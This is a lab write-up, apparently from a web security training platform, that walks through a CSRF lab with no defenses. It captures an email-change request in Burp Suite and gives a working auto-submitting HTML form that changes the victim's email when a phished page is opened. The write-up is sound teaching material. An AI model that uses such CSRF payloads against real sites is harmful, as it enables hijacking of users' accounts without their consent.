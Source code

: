 
### CSRF vulnerability with no defenses : APPRENTICE

---

> Given credentials `wiener:peter`.

> Logging in with the given credentials.

![](./screenshots/lab1-1.png)

> We see this page.

![](./screenshots/lab1-2.png)

> We know that the update email is vulnerable to CSRF.
> Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.

![](./screenshots/lab1-3.png)

> We see that we can guess all the parameters, and that the only method to track users is via the `session` cookie.

> We can construct an HTML page that performs the change email functionality while logged in to the wiener account.
```HTMl
<html> 
	<body> 
		<form action="https://vulnerable-website.com/email/change" method="POST"> 
			<input type="hidden" name="email" value="pwned@evil-user.net" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```
> This is the HTML code we will use, which we will change to suite our current attack.

```HTML
<html> 
	<body> 
		<form action="https://0ac000bb03ec8b0e8221bfad001a00ec.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="mins1@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```
> We set the URL to the path found in the `POST` request, and the `method` is `POST`.
> We set the value of the email to the one we want it to change to.

> To place this exploit, or send it to the user, we place it in the exploit server.

![](./screenshots/lab1-4.png)

> Once we deliver exploit to victim and go to the my-account page, we see that the email address was changed to `mins!@mins.com`.
> The funcionality to change the email address was done without the user intending to, by being phished into clicking onto a link that leads to this exploit.
> This exploit once clicks, automatically submits using the script given, `<script> document.forms[0].submit(); </script>`, and changed the email address to the one we supply.
> This works if the user is logged in to the same browser this link was opened in, due to the session cookie.

---

